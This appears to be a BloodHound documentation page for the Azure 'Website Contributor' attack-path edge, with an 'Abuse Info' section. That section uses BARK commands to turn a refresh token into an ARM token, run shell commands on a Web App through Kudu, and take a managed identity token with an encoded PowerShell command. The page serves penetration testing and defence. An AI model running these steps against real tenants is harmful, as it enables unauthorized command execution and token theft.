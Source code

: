 ```yaml
---
title: AZWebsiteContributor
description: "The Website Contributor role grants full control of the target Function App or Web App. Full control of either of those types of resources allows for arbitrary command execution against the target resoruce."
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



## Abuse Info

You can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute commands on a target Web App. You can use BARK’s New-PowerShellFunctionAppFunction, Get-AzureFunctionAppMasterKeys, and Get-AzureFunctionOutput functions to execute arbitrary commands against a target Function App.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the web app or function app. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```
Now you can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute a command against the target Web App. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMWebAppShellCommand `
    -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
    -Token $ARMToken `
    -Command "whoami"
```
If the Web App has a managed identity assignments, you can use BARK’s Invoke-AzureRMWebAppShellCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
PS C:\> $PowerShellCommand =
        $headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER}
        $response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://storage.azure.com/&api-version=2019-08-01" -Headers $headers
        $response.RawContent

PS C:\> $base64Cmd = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PowerShellCommand))

PS C:\> $Command = "powershell -enc $($base64Cmd)"

PS C:\> Invoke-AzureRMWebAppShellCommand `
        -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
        -token $ARMToken `
        -Command $Command

```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/](https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/)
* [https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95](https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95)
